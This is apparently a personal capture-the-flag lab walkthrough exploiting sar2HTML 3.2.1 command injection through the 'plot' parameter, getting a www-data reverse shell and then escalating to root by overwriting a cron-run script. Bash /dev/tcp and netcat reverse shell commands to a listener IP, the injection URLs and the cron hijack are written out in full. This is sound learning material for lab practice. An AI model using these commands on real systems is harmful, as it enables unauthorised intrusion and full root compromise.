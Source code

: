 Port 80

Default apache2 web-page

![[Pasted image 20240912041748.png]]

/robots.txt -> sar2HTML
/phpinfo.php -> exposed

I tried the robots.txt data in the url:

![[Pasted image 20240912042958.png]]


```php
# Exploit Title: sar2html Remote Code Execution
# Date: 01/08/2019
# Exploit Author: Furkan KAYAPINAR
# Vendor Homepage:https://github.com/cemtan/sar2html 
# Software Link: https://sourceforge.net/projects/sar2html/
# Version: 3.2.1
# Tested on: Centos 7

In web application you will see index.php?plot url extension.

http://<ipaddr>/index.php?plot=;<command-here> will execute 
the command you entered. After command injection press "select # host" then your command's 
output will appear bottom side of the scroll screen.
```

`192.168.186.35/sar2HTML/index.php?plot=;whoami`

![[Pasted image 20240912045032.png]]

This gives me RCE

```php
GET /sar2HTML/index.php?plot=;ls+/home/local.txt
```

![[Pasted image 20240912045406.png]]

b42704e144c6b9472feae9bffe6cb51d

Rev shell

`GET /sar2HTML/index.php?plot=;nc+192.168.45.250+4444`

This is not working well so i make a bash rev shell instead.

```php
bash -c "bash -i >& /dev/tcp/192.168.45.250/443 0>&1"
```
- Don't forget to terminate the last command with `;` 

Stabalize:

```php
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

- CTL + Z

```php
echo $TERM
```

```php
stty -a
```

```php
stty raw -echo && fg
```

```php
export TERM=xterm-256color
```

```php
stty rows 49 columns 129
```

This gives me a stable www.data.

Linpeas:
OS: Linux version 5.0.0-23-generic

Sudo version 1.8.21p2

writable files: /var/lib/systemd + /var/spool/cron/crontabs

Internals 127.0.0.1:631           

*/5  *    * * *   root    cd /var/www/html/ && sudo ./finally.sh

This is indicating two interesting .sh files that i found earlier:
`/finally.sh`

```php
cat finally.sh
#!/bin/sh

./write.sh
```

and write.sh:

```php
cat write.sh
#!/bin/sh

touch /tmp/gateway
```

I think i can modify the write file to run a reverse shell as root.

I echo a shell to the `write.sh` file and wait for the finally.sh to use the script.

```php
bash -c "bash -i >& /dev/tcp/192.168.45.250/1337 0>&1"
```

I get the rev shell as root and cat the proof.txt:

![[Pasted image 20240912082851.png]]

I didn't need to look, but there would have been a cron job running that was executing the scripts. I only knew this because of doing so many CTFs now.

---

**Completed:** _08:302024-09-12_

